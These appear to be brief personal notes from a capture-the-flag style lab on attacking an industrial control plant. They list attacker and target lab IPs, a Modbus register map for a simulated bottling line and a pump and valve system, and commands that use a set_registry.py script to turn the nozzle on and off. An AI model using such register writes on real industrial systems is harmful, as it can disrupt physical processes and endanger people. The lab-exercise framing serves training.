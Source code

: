 # Attacking_ICS_Plant_1 

> VOiD | Wednesday 17 November 2021 06:01:29 PM IST

My IP : 10.8.253.221
Target IP : 10.10.100.182



## REGISTERS

1 : water level sensor
2 : water something
3 : roller start
4 : Nozzel Control
16 : start/stop plant

```bash
# Stops the nozzel
./set_registry.py 10.10.100.182 2 0
# Starts the nozzel
./set_registry.py 10.10.100.182 2 1
# Same for register 4

1 : bottel sensor (1 if bottel is under nozzel)
2 : water level sensor (1 if bottel is filled)
3 : roller (1 turns roller on)
4 : nozzel (1 opens the nozzel)
16 : plant (1 starts the plant)


```
## ==================================================
# PART 2
## ==================================================

name 			: register no : on/off
feed pump	 		1 			1=on
feed pump 			2 			1=off
outlet valve		4			1=on
Waste water valve	9  			1=on
